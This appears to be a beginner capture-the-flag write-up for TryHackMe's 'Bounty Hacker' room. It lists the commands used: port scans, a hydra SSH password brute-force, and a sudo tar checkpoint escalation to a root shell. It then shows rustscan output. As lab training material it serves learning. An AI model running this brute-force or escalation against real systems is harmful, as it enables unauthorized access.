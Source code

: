 ```yaml
---
title: "Writeup - THM - BountyHacker"
description: "Walkthrough of Bounty Hacker of TryHackMe"
ate: 2020-09-24 23:14:00 +0100 
author: Fr3akazo1d!
categories: [Hacking, CTF]
tags: [Linux, tar, privesc, security]
image: /assets/img/thm-images/THM-BountyHacker.png
---
```


# Global Information

| Room           | Date           | Difficulty | Tags                               | Time |
| -------------- | -------------- | ---------- | ---------------------------------- | ---- |
| Bounty Hacker  | 24.09.2020     |   Easy     | Linux, tar, privesc, security      | 4h   |

# Used Programs

| Program  | Command |
| --------- | -------- |
| rustscan | rustscan $ip --ulimit 5000 -- -sC -sV -oN nmap/initial  tee output |
| namp     |  nmap -sC -sV -oN FTP-Scan -p 21 10.10.149.155 |
| hydra | hydra -t 16 -l l** -P locks.txt 10.10.149.155 ssh | 
| ssh  | ssh l**@10.10.149.155 |
| tar | sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh |

# Steps:

## 1 Check for open Ports

This is a beginner flagged Room. So i give it a try. It only takes 30min to get the root flag. 

First i started with a rustscan of the Machine. To check witch ports are open on the machine. 
Below the rustscan output. 

---

```sh
rustscan 10.10.149.155 --ulimit 5000 -- -sC -sV -oN nmap/initial | tee output                                
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
Faster Nmap scanning with Rust.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/home/pmalle/.config/rustscan/config.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
```